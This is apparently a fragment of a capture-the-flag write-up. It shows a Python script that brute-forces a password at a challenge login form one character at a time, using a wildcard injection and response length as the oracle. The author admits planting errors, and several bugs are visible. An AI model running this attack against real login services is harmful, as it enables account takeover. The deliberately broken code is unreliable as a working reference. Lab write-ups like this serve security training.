 ``` python

import requests
from string import ascii_lowercase, ascii_uppercase

url = "http://159.65.92.13:30182/login"


headers = {'Host':"159.65.92.13:30182",
        'User-Agent':"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.112 Safari/535.1",
        'Content-Type':"application/x-www-form-urlencode",
        'Connection':"close"}

chars = ascii_lowercase+ascii_uppercase+'0123456789_{}()'

passwd = ''

while(True):
 for char in chars:
    passwd_tmp = passwd+char+'*'
    data = {'username':'reese','password':passwd_tp}
    r = requests.post(url, headers=headers, data=data)
    print(passwd_tmp)
 
    if len(r.content) != 2208 :
        passwd+=char
    elif char=='{':
        print(passwd)
        print('finish!')
        exit
print(passwd)

```

And we get a password! HTB{...}!

Note: as this is a live challenge, I sprickled a few errors into the script, feel free to correct them yourself!


